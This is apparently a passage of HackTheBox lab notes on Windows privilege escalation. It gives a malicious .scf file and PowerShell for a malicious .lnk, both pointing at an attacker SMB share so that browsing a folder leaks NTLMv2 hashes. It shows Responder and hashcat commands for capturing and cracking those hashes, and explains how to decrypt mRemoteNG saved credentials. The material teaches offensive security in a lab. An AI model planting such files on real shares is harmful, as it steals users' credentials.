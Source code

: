 **Using SCFs no longer works on Server 2019 hosts**

```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.

```shell-session
PrinceAli1@htb[/htb]$ sudo responder -wrf -v -I tun0
```

```shell-session
PrinceAli1@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

#### Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

```powershell

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Pillaging

Enumeration -> System Information -> Installed Programs

#### mRemoteNG

`mRemoteNG` saves connection info and credentials to a file called `confCons.xml`. They use a hardcoded master password, `mR3m`, so if anyone starts saving credentials in `mRemoteNG` and does not protect the configuration with a password, we can access the credentials from the configuration file and decrypt them.

By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.

```powershell
PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```
